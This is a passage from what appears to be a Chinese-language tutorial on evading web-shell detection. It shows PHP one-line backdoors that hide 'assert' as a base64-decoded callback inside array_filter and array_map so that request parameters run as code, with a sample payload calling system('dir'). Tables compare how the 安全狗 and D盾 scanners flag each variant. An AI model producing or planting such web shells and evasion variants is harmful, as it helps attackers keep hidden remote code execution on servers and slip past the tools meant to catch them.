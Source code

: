 依然无法 Bypass

| 安全狗                        | D盾                     |
| :---------------------------- | :---------------------- |
| 1 个安全风险 array_filter后门 | 级别 5 array_filter后门 |

assert 手动 Base64 编码后传入，这样还会把 assert 关键词给去掉了：

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'],);
    array_filter($arr, base64_decode($e));
?>
```

| 安全狗                        | D盾                      |
| :---------------------------- | :----------------------- |
| 1 个安全风险 array_filter后门 | 级别 4 array_filter 参数 |

#### array_map()

```php
array_map(myfunction,array1,array2,array3...)
```

| 参数         | 描述                                      |
| :----------- | :---------------------------------------- |
| *myfunction* | 必需。用户自定义函数的名称，或者是 null。 |
| *array1*     | 必需。规定数组。                          |
| *array2*     | 可选。规定数组。                          |
| *array3*     | 可选。规定数组。                          |

array_map() 函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新值的数组。和 arrray_walk() 函数差不多：

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'],);
    array_map(base64_decode($e), $arr);
?>
    # payload  e=YXNzZXJ0&pass=system('dir');
```

依然被杀了，检测结果如下：

| 安全狗                     | D盾             |
| :------------------------- | :-------------- |
| 1 个安全风险 array_map执行 | 级别 5 已知后门 |

#### array_walk()

```php
array_walk(array,myfunction,parameter...)
```
